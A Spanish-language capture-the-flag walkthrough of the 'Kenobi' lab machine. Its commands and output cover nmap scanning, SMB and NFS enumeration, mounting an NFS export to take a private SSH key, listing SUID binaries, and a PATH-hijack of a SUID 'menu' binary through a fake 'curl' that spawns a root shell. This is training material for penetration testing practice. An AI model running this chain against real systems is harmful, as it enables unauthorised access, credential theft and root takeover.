 1. Escanear puertos con triple verbose
```sh
┌──(kali㉿kali)-[~/Documents/Kenobi] 
└─$ sudo nmap -vvv -n -p- -Pn -T5 10.10.252.0      
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-15 04:29 EDT   
Initiating SYN Stealth Scan at 04:29 
Scanning 10.10.252.0 [65535 ports]    
Discovered open port 445/tcp on 10.10.252.0  
Discovered open port 80/tcp on 10.10.252.0   
Discovered open port 22/tcp on 10.10.252.0   
Discovered open port 139/tcp on 10.10.252.0  
Discovered open port 111/tcp on 10.10.252.0  
Discovered open port 21/tcp on 10.10.252.0   
Discovered open port 2049/tcp on 10.10.252.0 
Discovered open port 49431/tcp on 10.10.252.0
SYN Stealth Scan Timing: About 41.26% done; ETC: 04:30 (0:00:44 remaining)   
Discovered open port 38657/tcp on 10.10.252.0
Discovered open port 40975/tcp on 10.10.252.0
Discovered open port 55121/tcp on 10.10.252.0
Completed SYN Stealth Scan at 04:30, 73.20s elapsed (65535 total ports)      
Nmap scan report for 10.10.252.0     
Host is up, received user-set (0.061s latency).      
Scanned at 2024-04-15 04:29:39 EDT for 74s   
Not shown: 65524 closed tcp ports (reset)    
PORT      STATE SERVICE      REASON  
21/tcp    open  ftp  syn-ack ttl 63  
22/tcp    open  ssh  syn-ack ttl 63  
80/tcp    open  http syn-ack ttl 63  
111/tcp   open  rpcbind      syn-ack ttl 63  
139/tcp   open  netbios-ssn  syn-ack ttl 63  
445/tcp   open  microsoft-ds syn-ack ttl 63  
2049/tcp  open  nfs  syn-ack ttl 63
38657/tcp open  unknown      syn-ack ttl 63
40975/tcp open  unknown      syn-ack ttl 63
49431/tcp open  unknown      syn-ack ttl 63
55121/tcp open  unknown      syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 73.37 seconds
   Raw packets sent: 68624 (3.019MB) | Rcvd: 68522 (2.741MB)
```

2. Enumerar shares del smb 
```sh
┌──(kali㉿kali)-[~/Documents/Kenobi]
└─$ nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.252.0
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-15 04:33 EDT
Nmap scan report for 10.10.252.0
Host is up (0.049s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-enum-shares: 
|   account_used: guest
|   \\10.10.252.0\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
|     Users: 2
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.252.0\anonymous: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.252.0\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>

Nmap done: 1 IP address (1 host up) scanned in 14.65 seconds
```

3. Ejecutar scripts para ver información del nfs en el puerto que redirige servicios `111` (**realmente estamos consultando al puerto que contiene el servicio nfs**) 

	The rcpbind utility maps RPC services to the ports on which they listen. RCP processes notify rpcbind when they start, registering the ports they are listening on and the RPC program numbers they expect to serve. The client system then contacts rpcbind on the server with a particular RPC program number. The rpcbind service redirects the client to the proper port number so it can communicate with the requeste service.
	
	`rcpbind` is a close analog of BIND, or really, any DNS server. If I recall correctly, you choose or are given a protocol number when you compile the RPC interface's declaration into server and client stub code with `rpcgen`.
	When a client signs up for a given interface on a particular host, usually with a `clnt_create()` call, the stub code asks `rpcbind` on that host a question, something like "on what udp or tcp port is protocol number X listening?" `rcpbind`, unlike most other ONC services, listens on TCP and UDP port 111, so given a host name or IP address, a program can just ask `rcpbind` responds with the appropiate port number, if a server has registered with it on that host. That registration is done by the server process when it calls `svc_create()`

```sh
nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.241.225
```

4. Montar /var/tmp en nuestro directorio

```sh
mkdir /mnt/kenobiNFS  
mount 10.10.47.231:/var /mnt/kenobiNFS  
ls -la /mnt/kenobiNFS
```

5. Conectarse a kenobi con la rsa
```sh
# La necesitamos en un sitio que nos permita editar archivos (no solo lectura)
cp /mnt/kenobiNFS/tmp/id_rsa ~/Downloads
sudo chmod 600 id_rsa
ssh -i id_rsa kenobi@10.10.241.225
```

6. Buscar archivos con permisos SUID (permite ejecutar el archivo con los permisos del propietario)
```sh
find / -perm -u=s -type f 2>/dev/null


/sbin/mount.nfs
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/bin/chfn
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/newuidmap
/usr/bin/gpasswd
/usr/bin/menu
/usr/bin/sudo
/usr/bin/chsh
/usr/bin/at
/usr/bin/newgrp
/bin/umount
/bin/fusermount
/bin/mount
/bin/ping
/bin/su
/bin/ping6

```

7. El /usr/bin/menu es raro... ejecutandolo sale esta interfaz

```sh
***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
```

8. Ejecutamos strings (para ver las strings humanamente legibles en un binario) y nos damos cuenta que el archivo se ejecuta directamente en el sitio dónde está (se ejecuta de forma relativa no absoluta)
```sh
kenobi@kenobi:/tmp$ strings /usr/bin/menu
/lib64/ld-linux-x86-64.so.2
libc.so.6
setuid
__isoc99_scanf
puts
__stack_chk_fail
printf
system
__libc_start_main
__gmon_start__
GLIBC_2.7
GLIBC_2.4
GLIBC_2.2.5
UH-`
AWAVA
AUATL
[]A\A]A^A_
***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
curl -I localhost
uname -r
ifconfig
 Invalid choice
;*3$"
```

9. Cómo el archivo se ejecuta como administrador podemos intentar ejecutar métodos a través de éste
```sh
# Necesitaremos una sh con permisos
echo /bin/sh > curl
chmod 777 curl

# Cambiamos la ruta de los binarios
export PATH=/tmp:$PATH
# Ejecutamos el menu
/usr/bin/menu
# Por último le damos a 1 y seremos root...
```